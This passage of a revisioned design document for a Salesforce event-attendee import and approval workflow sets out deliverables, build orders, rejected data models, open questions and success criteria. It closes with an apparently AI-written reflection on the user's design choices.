17. Create `Event_History__c` + 10 fields + the XOR validation rule → verify: deploys; a hand-inserted row upserts idempotently on `Unique_Key__c`; both-set and neither-set are refused.
18. **In the org, delete a tagged Contact and a tagged Lead** (Open Question 14). This is step two, not step twenty, because a bad answer changes the delete constraint and therefore the object — and finding that out after the controller is written means rewriting both.
19. Write the failing tests first — *no Contact created/updated/deleted* and *no Account created* — against the **current** controller, and watch them fail. These two assertions are the requirement; everything else is detail.
20. Replace `classify()` with the narrowing cascade + `Match_Basis__c`, run over Contacts then Leads → verify: one test per rung on each pass, plus the empty-narrowing rule, the ambiguous case, and Contact-beats-Lead precedence.
21. Reduce `applyChanges()` to insert-Leads-then-upsert-history → verify: step 19's assertions now pass, and a newly created Lead comes back tagged `Created by import`.
22. LWC: Event column, five tiles, ambiguous-row download → verify: jest suite green.
23. Permission set (add the object), demo CSV, README/QUALITY/DEPLOYMENT updates → verify: full gauntlet.

### ★R5 Deliverables delta

**Added**

| Item | Note |
|---|---|
| Object `Event_Attendee__c` + 9 fields | Person-level; OWD Public Read/Write; `Unique_Key__c` is the only de-duplication |
| Tab + layout for `Event_Attendee__c` | The layout's Event Invitees related list is what answers "which events has this person been put forward for" — the question `Event_History__c` used to hold |
| `Event_Invitee__c.Event_Attendee__c` lookup | `Restrict` delete, so an invited attendee cannot vanish mid-approval. Unlike the old Contact/Lead constraints this only ever blocks deleting a record this project owns |
| `Event_Attendee__c` required on the lookup | Replaces the XOR rule. With one head there is nothing to exclude, only presence to require |
| `AttendeeImportController` / `AttendeeImportControllerTest` | Renamed from `ContactImportController`: a class called "contact import" that imports no contacts is a comment that lies |
| `c/attendeeSelector` | Renamed from `c/contactSelector`, three tabs → two |

**Removed**

| Item | Why |
|---|---|
| Object `Event_History__c` + 10 fields + its validation rule | Attendance and invitation are the same row now. One revision old; see the note under *Data model* |
| `Event_Invitee__c.Contact__c` / `Lead__c` / `Account__c` / `Account_Owner__c` | Nothing left to point at or snapshot |
| `Event_Invitee__c.Invitee_Type__c` | A column that always reads "Attendee" is noise — dropped from the report type, both reports, the approval page and the All Invitees table |
| `Event_AM`'s Lead object permission | The import no longer touches a single standard object. Worth stating: this permission set now grants **nothing** outside this project's own objects |
| Account / Contact / Lead tabs in the Event Management app | The workflow does not read them |
| `Match_Basis__c`, the narrowing cascade, the Ambiguous outcome | Nothing to match against |

**Modified**

| File | Change | Est. |
|---|---|---|
| `InviteeSelectorController` | `getSelectableContacts` + `getSelectableLeads` → `getSelectableAttendees`; `addInvitees` + `addLeadInvitees` → `addAttendees`; the approver ladder collapses to one rung; `getMyAccountIds` deleted | ~−140 |
| The four `Invitee_*__c` formulas | `BLANKVALUE(Contact__r.X, Lead__r.X)` → `Event_Attendee__r.X` | small |
| `importWizard.js` / `.html` | Event column out of `HEADER_MAP`; de-dup key mirrors `Unique_Key__c`; 5 tiles → 3; manual-review download repointed at Skipped rows | ~+40 / −80 |
| `EventWorkflowTest` | Setup seeds attendees instead of Accounts/Contacts/Leads; the two ladder tests become one no-manager test; new tests for the Restrict constraint and the required-attendee rule | rewrite |
| Both permission sets, report type, 2 reports, invitee layout, approval process, app, record page, import tab | Drop `Invitee_Type__c` and the Contact/Lead grants; add `Event_Attendee__c` | small each |
| `seed-demo-data.apex` | Creates no Account, Contact or Lead at all — 7 attendees keyed the way the import keys them, so a demo re-run shows a New/Already-known mix | rewrite |
| `demo-data/*.csv` + `generate-demo-csv.mjs` | Event column dropped; adds the collapsing same-name pair, the separable same-name pair, a junk email and a two-company row | rewrite |

**Not shipped, deliberately**

- **No reconciliation between attendees and Contacts.** Named as the recovery path in the price
  table rather than half-built here — a matching pass that runs on a schedule is a different
  feature from an import, and building it into the import is what R5 exists to undo.
- **No roll-up of attendee counts on the event.** `Event_Invitee__c` already provides the three
  status counters; an attendee count is the same number before approval.

### ★R5 Build order

Sequenced so the assertions land before the code that could violate them, and so the
irreversible metadata deletions happen last.

24. Create `Event_Attendee__c` + 9 fields + tab + layout → verify: deploys; a hand-inserted
    row upserts idempotently on `Unique_Key__c`; a second row with the same key is refused.
25. Point `Event_Invitee__c` at `Event_Attendee__c` with a required lookup, and drop
    `Contact__c` / `Lead__c` / `Account__c` / `Account_Owner__c` / `Invitee_Type__c` outright.
    No two-phase dance: none of these objects has ever held a record.
26. Write the failing tests first — *no Contact, Lead or Account created, updated or deleted*
    — against the **current** controller, and watch them fail. That assertion is the
    requirement; everything else is detail.
27. Replace `ContactImportController` with `AttendeeImportController` → verify: step 26's
    assertions pass; re-running a file creates nobody new; junk in the Email column costs the
    address and not the person.
28. Repoint the four formulas, rework `InviteeSelectorController`, rebuild the two LWCs →
    verify: jest green, `EventWorkflowTest` green, the approval page still shows a name.
29. Report type, reports, permission sets, app, record page → verify: the Approved Invitees
    report renders with no blank name or organisation column, then the full gauntlet.

### ★R6 Deliverables delta

**Added**

| Item | Note |
|---|---|
| `Event_Invitee__c.Attended__c` | Checkbox. The fact a recommendation can honestly be built on, as distinct from Approved |
| Validation rule `Attended_Requires_Approved` | You cannot have attended what you were never approved for. Holds at the database, not only in the Apex |
| `Marketing_Event__c.Topic__c` | Multi-select. **Placeholder values** — the real taxonomy has to replace them and past events need back-filling, or every old event looks equally similar to every new one |
| `Event_Invitee__c.Event_Name__c` / `Event_Date__c` / `Event_Type__c` | Formulas reading up to the parent event, so the attendee's related list and report are legible without a join |
| Report type `Event_Attendees_with_History` + report *Attendee Event History* | Base object is the attendee, so history groups by person. Filtered to Attended = true |
| `InviteeSelectorController.saveAttendance` | Both lists explicit; scoped to the event; refuses an empty save; reports rows it would not mark rather than failing the batch |

**Modified**

| File | Change |
|---|---|
| `Marketing_Event__c.Event_Type__c` | Values → Symposium / OIP / Conference. Restricted picklist, so it is a migration |
| `attendeeSelector` | All Invitees tab gains an attendance column and a Save Attendance button, dirty-tracked so saving is only offered when something changed |
| `getAllInvitees` | Returns `attended` and `canAttend`, so the UI knows which rows are tickable rather than guessing from the status string |
| Both permission sets | `Attended__c` is the **only** invitee field an AM may write; everything else stays read-only |
| Three layouts, `Marketing_Events_with_Invitees` report type | The new fields; the attendee related list now shows what the event was and whether they came |
| `seed-demo-data.apex` | Adds a second, past event — a recommendation demo with one event in the org demonstrates nothing |

**Not shipped, deliberately**

- **No recommendation logic.** Attendance is recorded and events are tagged; a human reads the
  report and decides. A scoring function written before anyone has tagged a real event would
  be fitting itself to placeholder topics.
- **No aggregate fields on the attendee.** See the note under *Data model*, and Open Question 18.
- **No bulk "mark everyone attended" action.** One click that asserts forty people showed up is
  exactly how attendance data stops being trustworthy.

### ★R6 Build order

24. `Attended__c` + `Attended_Requires_Approved` → verify: the database refuses attendance on
    a Draft row, independently of any Apex.
25. `saveAttendance` + the `getAllInvitees` additions → verify: both lists explicit, scoped to
    the event, an unapproved row reported rather than failing the batch.
26. The three event-reading formulas → verify: an attendee's history renders name, date and
    type without a join.
27. Report type + *Attendee Event History* → verify: grouped by person, Attended = true only.
28. Set the `Event_Type__c` values to Symposium / OIP / Conference — a plain edit, since no
    event record exists to hold a retired value.
29. `Topic__c` with the **real** taxonomy, then tag the events → verify: the Approved
    Invitees report can filter on a topic and return the events you expect.

### ★R3 What still needs an org

Two things in this revision cannot be verified from the repo, and both were flagged before
the build rather than after:

1. **Mass approve/reject in the Lightning Approval Requests list at ~40 rows** (Open Question 6's dependency). If it turns out to be one-at-a-time in the target org's release, the recommendation flips to Option 2 and approvers act from email replies instead. Nothing in the metadata has to change for that except adding an email template and re-enabling the user setting.
2. **The exact label and values of the user-level approval-email setting.** README's post-deploy step 4 names it as *Receive Approval Request Emails → Never*; confirm against the org before telling approvers to change it.

Also unverifiable here: `sf project deploy start` and `sf apex run test`. The Apex compiles
against no org in this repo, and the Approval Process, Flow, report type and reports have
never been round-tripped through a real deployment — first deploy should expect to fix
metadata details, not logic.

### ★R5 What still needs an org

Everything verifiable from the repo has been verified: 167 LWC tests, ESLint, Prettier and
10/10 mutants behaving as expected. What that does *not* cover is larger in R5 than in earlier
revisions, because more of the change is metadata:

1. **The whole deploy.** No Apex in this repo has been compiled against an org, and R5 adds an
   object, repoints four formula fields, and rewires a report type, two reports, an approval
   process, two permission sets, a layout, an app and a record page. First deploy should expect
   to fix metadata details, not logic.
2. **That the deploy really is additive.** It is designed to be and the tests assert the Apex
   side of it, but "no standard object is modified" is finally a claim about *metadata*, and
   metadata is what has never been deployed. Validate with `--dry-run` against a sandbox that
   mirrors production before trusting it against production.
3. **Whether cross-object formulas resolve for an approver.** `Invitee_Name__c` and
   `Invitee_Org__c` traverse `Event_Attendee__r`. The design grants `Event_Approver` read on
   the object and sets the OWD to Public Read/Write on the assumption that this is sufficient;
   the failure mode if it is not is a blank name on the approval screen — the exact symptom R3
   hit with a Private Lead OWD, on a different object. **Check it on a real approver user, not
   as an admin**, because an admin will see the data either way.
4. **PMD.** The baseline was pruned of the deleted classes but nothing has scanned the ones
   that replaced them. Re-record on the first machine with PMD installed; see QUALITY.md.

Carried over from R3 and still unverified: mass approve/reject at ~40 rows in the Lightning
Approval Requests list, and the exact label of the user-level approval-email setting. Item 1's
volume argument (see *Screen 4*) makes the first of those matter more than it did.

## ★R3 Rejected alternatives for the no-Account invitee

Premise 7 (Account = transacting customer, not negotiable) eliminated three otherwise
reasonable models. Recorded here so the decision is not relitigated:

| Rejected | Why |
|---|---|
| **Contact with `AccountId = null`** (a *private contact*) | The platform makes such a Contact visible **only to its owner and administrators — sharing rules and the role hierarchy do not apply to it**. The whole premise of this system is a *shared* event that several AMs contribute to and a third person approves; a private contact is invisible to every one of them. It also has no Account, therefore no Account Owner, therefore nothing to route approval to. This looks like the cheapest option and is in fact the one that breaks the most |
| **Account record type `Institution` / `Prospect` stage** | Directly violates Premise 7. It also silently corrupts every existing customer-count report, dashboard and any downstream integration that reads Account as "customer" — the damage lands outside this project, on people who never agreed to the change |
| **Person Accounts** | Irreversible once enabled, org-wide in blast radius, and semantically wrong here: a professor *is* affiliated with an institution, so modelling them as an unaffiliated individual loses the very attribute the event cares about. Also still creates Account rows for non-customers, so Premise 7 rules it out anyway |

**Why Lead is the right answer and not merely the leftover one.** Lead is Salesforce's standard
representation of "a person we have a relationship with who is not yet a customer" — the exact
state a professor invited to a technical conference is in. `Lead.Company` is free text, so a
university name is recorded without an Account existing. Leads carry an Owner, which gives
approval routing something to aim at. And **Lead Convert** is a built-in, no-code promotion
path for the day the institution does become a customer: it creates the Account and Contact
then, correctly, under the definition Premise 7 protects.

**The cost, stated plainly.** `Event_Invitee__c` becomes a two-headed junction, and every
consumer must handle both heads. The `Invitee_*__c` formula fields confine that cost to five
field definitions instead of spreading `IF (Contact) … ELSE (Lead)` through the LWCs, the Apex
and the reports. That containment is the single design decision this revision rests on.

### ★R5 postscript to the rejected alternatives

The table above rejected three ways of holding a non-customer *inside the standard objects*,
and landed on Lead as the least-bad standard home. R5 rejects the shared assumption behind
all four: that an invited person has to be represented by a standard object at all.

Lead was a good answer to "which standard object holds a person who is not yet a customer".
It was a poor answer to "where do imported event attendees live", and the tell was visible in
R3 and R4 without being named: a two-headed junction, five formula fields whose only job was
to hide the fork, an approver ladder that grew a rung and then an exclusion rule to stop the
rung from letting AMs approve themselves, and `Lead.Company` doing the work of an
organisation field on an object that also carries a sales pipeline nobody here uses. Each of
those was a reasonable local fix. Together they were the design saying it had the wrong
container.

**What is still true from that table:** Premise 7 holds absolutely, and none of the three
rejected options becomes acceptable in R5 — they are simply no longer tempting, because
nothing needs a standard object to point at. **Lead Convert is what is genuinely lost.** R3
valued it as the no-code promotion path for the day an institution becomes a customer; an
`Event_Attendee__c` has no such path, and promoting one means creating the Account and
Contact by hand. That is a real regression for the academic-guest case, and it is the second
strongest argument (after Open Question 15) for an attendee → Contact link one day.

## Open Questions

1. Exact CSV column headers from the real source system (assumed: First Name, Last Name, Email, Title, Company, Mobile) — confirm with one real file before the demo.
2. "AM's accounts" definition in production (owner vs Account Team vs role hierarchy) — PoC uses owner + Account Team membership.
3. ~~Where the exported CSV goes next~~ — ★R3 partly moot: report columns are now editable by the user without a deploy, so the downstream question stops being a build-time decision. The `Decided_At__c` timezone concern survives in a milder form: the report renders it in the running user's timezone, so two users exporting the same report can produce different-looking timestamps.
4. Should Rejected invitees be re-submittable after edits? PoC: yes, via reset — re-adding a rejected contact resets the existing invitee row to Draft (see Screen 3); there is never a second row per Event+Contact.
5. ★R3 **Retiring `Exported` / `Exported_Count__c` is the biggest functional loss in this revision** — is "which approved invitees have already been pulled into a file" something the business actually tracked, or an artefact of having built a custom exporter? If it is genuinely needed, the cheapest recovery is a manual `Exported_On__c` date set by a list-view mass edit after downloading, not a return to custom Apex.
6. ★R3 Which notification option for Screen 4 — Option 1 (aggregate email, per-request approval emails off) or Option 2 (pure standard, plus Email Approval Response so approvers can reply from a phone)? Option 1 is the design's recommendation; Option 2 is more standard and enables email approval.
7. ★R3 What is the org's **Lead OWD**? Under Private, approvers may not be able to see the Lead behind an invitee they are approving. PoC assumes Public Read Only.
8. ★R3 Who should own Leads created by the import (Screen 1)? Currently the importing AM — which then routes their approval to *their own manager* by ladder rule 2's exclusion. That is intended, but it means a large academic import concentrates approval work on one manager.
9. ★R3 ~~Should the same person existing as both a Contact and a Lead be prevented from being invited twice to one event?~~ **Settled by R5, structurally.** There is one kind of invitee, so there is one `Unique_Key__c` per person per event and the second row cannot be created. Note *how* it was settled: not by a rule catching the duplicate, but by removing the fork that produced two identities. R5 introduces its own version of the problem one level down — see Open Question 16.
10. ★R4 ~~Should a narrowing step that empties the candidate set be skipped, or end the match?~~ **Settled: skipped.** A stale or differently-spelled company does not erase a person found by name. Strict AND was the alternative and would have dropped exactly the people who changed jobs.
11. ★R4 ~~Should Leads carry event history too?~~ **Settled: yes — and then made moot by R5.** The answer forced `Event_History__c` onto two lookups and cost a cascade delete, its own OWD and the roll-up on Contact. R5 deletes the object outright, so the whole question was one revision of scaffolding. Kept in the record because the *reason* it was asked — guests without a customer relationship are first-class — is exactly what R5 built the attendee object for.
12. ★R4 ~~Is a name-first match acceptable given it can tag the wrong person?~~ **Moot as of R5 — nothing is matched.** Left below as written, because the condition it names ("if a name-only match is ever used for something that acts on people") is the reason R5 could delete the cascade without regret: it never got there. The successor risk is Open Question 16. Original text: **Settled: accepted.** A single Contact matching a name that belongs to somebody else is tagged wrongly with no signal, and that is understood. What makes it survivable is that a tag is append-only history: it destroys nothing, changes no Contact field, and has no effect on invitation or approval. `Match_Basis__c` records how each tag was reached so a wrong one can at least be explained afterwards. **If a name-only match is ever used for something that acts on people — a mailing, an invitation, a report someone bills from — this decision needs revisiting first.**
13. ★R4 ~~Should the event history be visible on the Contact at all in this PoC?~~ **Resolved by R5 removing the problem.** The blocker was that showing it meant editing the org's own Contact and Lead layouts — damage outside this project. Attendees are on an object this project owns, so its layout ships with the Event Invitees related list and nothing outside the project has to change. This is the clearest single sign the R4 shape was fighting the platform.
14. ★R4 ~~Does a `SetNull` delete constraint re-fire the XOR validation rule when a Contact or Lead is deleted?~~ **No longer reachable.** The dilemma was that every delete constraint pointing at a *standard* object was bad in a different way. `Event_Invitee__c.Event_Attendee__c` uses `Restrict`, which was the unacceptable option in R4 precisely because it would have blocked deleting a Contact — and is the right option now because the only thing it blocks is deleting an attendee this project created. `EventWorkflowTest.anInvitedAttendeeCannotBeDeleted` asserts it.
15. ★R5 ~~**Is a manager the right approver, now that the Account Owner cannot be one?**~~ **Answered by R7, with the key this entry said was missing.** The recovery it names — "a second approval step keyed off something the attendee does not currently carry" — is exactly what arrived: every row carries a customer code `cust_cd`, and a table maps it to the owning AM and onward to the regional head. The control R5 lost is restored without reaching an Account, so premise 7 never comes under pressure. Original text: **Is a manager the right approver, now that the Account Owner cannot be one?** R3's primary control was "the person who owns the customer relationship signs off on inviting their customer". R5 has no way to know whose customer an attendee is, so that control is gone and only the submitter's reporting line reviews anything. If the approval means "does this person belong at our event?", a manager suffices. If it means "is it appropriate to invite *my* customer?", this revision removed the only person who could answer, and the recovery is a second approval step keyed off something the attendee does not currently carry. **This is the biggest functional loss in R5 and should be confirmed with the business before the demo, not after.**
16. ★R5 **Is `last|first|company|email` the right identity for an attendee?** It is the whole of de-duplication now. Two consequences are asserted in the tests rather than hoped about: two same-named people at one company with no email collapse into one attendee, and one person whose email changed between two files becomes two. The demo file contains both cases on purpose. If real lists turn out to carry a stable external id, that column is a far better key and the change is one method.
18. ★R6 **Does anyone need to filter *people* by their attendance history?** R6 deliberately ships no aggregate on the attendee — no "events attended" count, no "last attended" date — because `Event_Invitee__c` is a Lookup child and a roll-up needs a Master-Detail, so any such field costs a trigger or Flow to maintain. The *Attendee Event History* report answers the question by group; what it cannot do is return "everyone who has attended three or more events" as a list to act on. If marketing wants to segment on that, the cheapest honest answer is a scheduled Flow maintaining two fields, and it should be built then rather than now.
19. ★R6 **What is the real `Topic__c` taxonomy, and who back-fills past events?** The values shipped are placeholders taken from the demo data's financial-services domain. Until they are replaced *and* historical events are tagged, every past event looks equally similar to every new one and any recommendation is noise. This is the single thing standing between R6 and the requirement actually being met — the plumbing is done, the data is not.
20. ★R6 **What does "OIP" expand to, and what distinguishes it from a Symposium?** It is the business's term and this design does not know it. Nothing breaks — no record holds a value — but a picklist whose values the documentation cannot explain is one an AM will pick from at random, and the event type is a column in every report.
17. ★R5 ~~**Should an attendee ever be linked back to a Contact?**~~ **Answered by R8: yes, and by the exact route this entry recommended.** `Event_Attendee__c.Contact__c` is a lookup populated by a separate reconciliation run; the import still reads no standard object. `SEIM_PERSON.CONT_PERSON_SEQ` is the same field in the source system, which is a fair sign the question was worth asking. What it costs is a Read grant on Contact that this repo does not ship — see the R8 header. Original text: **Should an attendee ever be linked back to a Contact?** Deliberately not built — see the price table under *Data model*. The question is when somebody asks "which of tonight's guests are existing customers?", which R4 could answer and R5 cannot. The recommended recovery is an optional `Contact__c` lookup populated by a separate reconciliation job, **not** matching inside the import.
21. ★R7 **What approves a guest with no `cust_cd`?** R7 routes on the customer code, so an attendee who belongs to no customer — a professor, a journalist, the people who were Leads two revisions ago — has no chain and cannot be submitted at all. The design refuses rather than falling back to the submitter's manager, because a fallback turns a data gap into a quieter approval. But refusing is only correct if such guests are rare or unwanted; if they are routine, the chain needs a default route (a `cust_cd` of `INTERNAL`, or a level-0 rule) and that is a business decision, not a build one. **Confirm alongside Open Question 15's answer, not after it.**
23. ★R8 ~~**How does an invitee acquire its Account?**~~ **Answered: through the Contact, option (a).** `Event_Attendee__r.Contact__r.AccountId` at add time, with `Account.OwnerId` as `Account_Manager__c` and `Account.AccountNumber` as `Cust_Cd__c`. Two things follow that are worth keeping in view. **The Account Owner rung is buildable again** — R5 deleted it for want of an Account, and requirement.md asked for it in the first place; nothing routes to it yet, but `Account_Manager__c` is now on the row. **And a guest with no Contact has no customer**, so Open Question 21 arrives through this door rather than R7's: those rows carry no `cust_cd` and no chain. One more limit, recorded rather than worked around: `InviteeSelectorController` is `with sharing`, so an Account the running AM cannot see comes back null and the row silently falls back to the imported company text. Reading the org's customer data `without sharing` to avoid that is not a trade this project makes on the org's behalf. Original text: **How does an invitee acquire its Account?** The ERD's `SEIM_INVITEE` carries `COMP_SEQ` / `CUST_CD` / `ACCT_MNGR`, so the source system knew a person's company per invitation. Three routes here, and they are not equivalent: (a) **through the Contact** — `Contact__c.AccountId` gives Account, `Account.OwnerId` gives the account manager, and the whole chain falls out of the link R8 already built; (b) the AM **picks the Account** in the selector when adding the invitee, which works for guests who are nobody's Contact but adds a step to the screen the demo is built around; (c) a **reconciliation run** stamps it, same as the Contact link. (a) is the tidiest and has one consequence worth naming out loud: an attendee who is not a Contact has no Account, no `cust_cd` and therefore — under R7's routing — no approval chain. That is Open Question 21 arriving through a different door.
24. ★R8 ~~**Does `Company__c` stay on the attendee, and does it stay inside `Unique_Key__c`?**~~ **Answered: both stay, and the invitee snapshots its own copy.** The attendee keeps the raw imported value and the identity key is untouched; `Invitee_Org__c` holds the company this person was invited *as*. What that buys is the ERD's correction — a job change shows correctly on each event — without narrowing attendee identity to `last|first|email`, which would have made two same-named colleagues with no email indistinguishable. **What it costs is a genuine duplicate:** the same company is recorded in two places, and when they disagree the invitee is right about the invitation while the attendee is right about today. Open Question 16 is therefore *not* settled — a person who changes jobs is still two attendees. Original text: **Does `Company__c` stay on the attendee, and does it stay inside `Unique_Key__c`?** The ERD says no to the first (`SEIM_PERSON` has no company column) and therefore no to the second. Moving it to the invitee makes a job change a new invitation rather than a new person, which is what Open Question 16 was complaining about. What it costs: the import's CSV carries a Company column and would have nowhere person-level to put it, and identity narrows to `last|first|email` — so two same-named people at one company with no email stop being distinguishable at all, where today the company at least separates them from people elsewhere. Keeping both — raw import value on the attendee, snapshot on the invitee — is the middle path and duplicates the data.
25. ★R8 **How does an approver approve a whole company's invitees at once?** The requirement is one click per company, with the per-invitee record model unchanged. The standard Approval Requests list cannot do it: its rows are `ProcessInstanceWorkitem` records and it cannot show, sort or group by a field on the target record, so the company is not even visible there to select on. The options are a list view on `Event_Invitee__c` (filtered to `Status = Pending Approval`, grouped by company) driving a **custom mass-approve action**, or a small LWC on the event page. Either is a partial reversal of R3, which deleted a hand-built approval console — the difference is that this is one bulk action calling `Approval.process`, not a console. **Needs verifying in a real org**, since design.md's Screen 4 already flags mass approve/reject behaviour as unverified.
22. ★R7 **How many levels should the approval process pre-provision?** Steps beyond the ones in use cost nothing at runtime — each is skipped by its own `ISBLANK(Approver_N__c)` gate — but the total is capped per process by the platform. Five is the suggested starting point for a two-level chain. Worth checking the org's actual cap and the business's honest ceiling in the same conversation.

## Success Criteria

Demo script runs end-to-end in the Sandbox without manual data fixes:

1. ★R5 Upload the 49-row demo .csv → preview shows the correct **New / Already known /
   Skipped** split → apply creates the attendees.
   The assertions that matter are the negative ones: **no Contact, Lead or Account is
   created, updated or deleted** — verified by comparing row counts and `LastModifiedDate`
   before and after. In R4 this list was two objects long; it is three now, and the import
   touches no standard object at all.
   1a. ★R5 Re-running the identical file creates nobody new: every row comes back **Already
   known** and the attendee count is unchanged.
   1b. ★R5 The two Sophie Laurents with no email **collapse into one attendee**, and the two
   Marie Duponts with different emails stay **two**. Both are in the demo file deliberately:
   the first is the cost of R5's identity key, not a defect.
   1c. ★R5 `Ben Nomail`, whose Email column says `n/a`, is **imported with no email**, and the
   preview row says the address was not stored. One bad cell must not fail the other 48 rows.
   1d. ★R5 The two rows with no last name are **Skipped**, write nothing, and appear in the
   manual-review download.
2. AM creates an event; two different AMs each add their own attendees and submit; both
   submitters' managers are notified.
3. One manager opens the **Approvals list** on desktop, the other in the Salesforce Mobile
   App; both select all pending items and Approve. ★R3 The Approval History related list on a
   decided invitee shows the approver, timestamp and comments.
4. Both AMs receive completion emails; the event shows correct roll-up counts; the **Approved
   Invitees report** lists exactly the approved invitees and exports without mojibake.
   ★R5 Specifically: the Name and Organisation columns are **populated**, which is what proves
   the repointed formulas and the approver's read access to `Event_Attendee__c` both work.
5. Duplicate adds are prevented; a rejected invitee does not appear in the report, reappears
   in the selector, and re-adding resets the existing row rather than creating a second.
6. ★R5 **Nothing invents a customer record anywhere in the flow.** After the full demo,
   `SELECT COUNT() FROM Account`, `FROM Contact` and `FROM Lead` are exactly what they were
   before it started. Asserted in `EventWorkflowTest.inviteeReadsThroughToTheAttendee`, and
   worth re-checking by hand in the org, because it is the entire point of the revision.
7. ★R5 **The un-routable case is refused, not swallowed:** a submitter whose user record has
   no Manager gets a named error and the rows stay in Draft. With one rung on the ladder this
   is the only way routing can fail, so it carries more weight than it did in R3.
8. ★R5 **An invited attendee cannot be deleted.** The `Restrict` constraint is what stops an
   invitee pointing at nothing mid-approval.
9. ★R3 Narrowing the report's `Decided_At__c` filter to the day the approvals happened returns
   the same rows; shifting it by one day returns none.

## Dependencies

- Sandbox access with permission to deploy metadata (SFDX / Salesforce CLI, API access enabled).
- ★R5 Three test users for the multi-user demo: two AMs and one manager, with the manager set on both AMs' user records. (R3 needed two AMs and two Account Owners; with routing down to one rung, the second approver has nothing to approve.)
- One real anonymized .csv sample from the source system (nice-to-have; seed script otherwise).

## Next Steps

1. Scaffold SFDX project + custom objects/fields/permission sets → verify: deploy to Sandbox succeeds.
2. Seed demo data (Accounts with distinct Owners, Contacts, two AM users) → verify: Screen-3 grouping shows multiple owners.
3. Build Screen 1 (import wizard LWC with client-side CSV parsing + preview/apply Apex + tests) → verify: 48-row demo file classifies and applies correctly.
4. Build Screen 3 selector + submit service + notifications → verify: two AMs' batches stay independent; owners notified.
5. Build Screen 4 approval console (desktop + phone form factor) + completion notification → verify: select-all approve updates all rows and emails the right AM.
6. Export button + Event roll-ups + record page assembly → verify: full demo script (Success Criteria) passes.
7. Approved Exports app page (cross-event download + decision-date range) → verify: criteria 6–8 pass, including the timezone-boundary case.
8. Dry-run the demo with fresh eyes; polish copy and empty/error states shown in the script.

### ★R3 Build order (steps 1–8 above are already done)

Sequenced so the standardisation lands *before* the Lead work, because the Approval Process is
what `Approver__c` has to satisfy — building the field first and discovering the constraint
second is the expensive order.

9. **Verify the two assumptions first, in the org, before writing metadata** — (a) mass approve/reject in the Lightning Approval Requests list view at ~40 rows, (b) the user-level approval-email setting's real options. Both feed Open Question 6, and a bad answer to (a) changes the Screen-4 design.
10. Add `Approver__c` + `Approver_Required_When_Pending`; change `InviteeSelectorController` to resolve the ladder (Contact path only at this point, so behaviour is provably identical) → verify: existing `EventWorkflowTest` passes untouched.
11. Build the Approval Process; switch submit to `Approval.process()`; delete `approvalConsole` + `ApprovalConsoleController`; add the completion Flow → verify: Success Criteria 2–3 pass with no custom approval UI.
12. Custom report type + 2 reports + folder sharing; delete `EventExportController`, `approvedExport`, the tab/flexipage, `Exported_Count__c` and the `Exported` picklist value → verify: Criteria 4–5, 8.
13. Add `Lead__c`, the five `Invitee_*__c` formulas and `Invitee_Is_Contact_Xor_Lead`; point the *All Invitees* tab and both reports at the formulas → verify: existing Contact invitees render unchanged through the new fields (nothing about them should move).
14. Ladder rules 2–3 + the self-approval exclusion; *Add Leads* tab → verify: Criteria 6–7, and specifically that a self-owned Lead never routes to its submitter.
15. Screen 1: unmatched Company creates a Lead; remove the `PoC Unassigned` bucket from code and seed script → verify: Criterion 1, including the Account-row-count assertion.
16. Permission sets + Lead OWD check; re-run the full demo script.

## What I noticed about how you think

- You replaced my generic premises with a four-step workflow of your own — upload/merge, create, approve, export — already sequenced like a product spec. You knew exactly what the demo has to prove.
- You chose Approach B over the recommended hybrid: you'd rather own the full experience than inherit Campaign's constraints. That's a taste call, and a defensible one in the AI-build era.
- Twice you corrected course on audience realism before anything else ("應該上傳 Excel", "UI都用英文呈現, AM同事大多是美國或歐洲人") — you design from the actual user's desk, not from the platform's defaults.
- "其他的AM也可以將自己的Contacts加到Event" — you caught the multi-user collaboration case that single-demo thinking usually misses.
- ★R5 You spent R3 and R4 finding increasingly careful ways to work *around* "an Account means a transacting customer" — a Lead here, a two-headed junction there — and then, in two sentences, removed the need to work around it at all. That is a different kind of move from the previous revisions: they were local fixes to a container that did not fit, and this one changed the container. The tell that it was the right call is how much machinery simply stopped being necessary rather than getting better.
- ★R5 You also asked for it as a *refactor*, not a feature. That framing is what made it possible to delete `Event_History__c` one revision after building it. A feature request would have had to justify keeping the old object working alongside the new one; a refactor is allowed to say the previous answer was one step short.
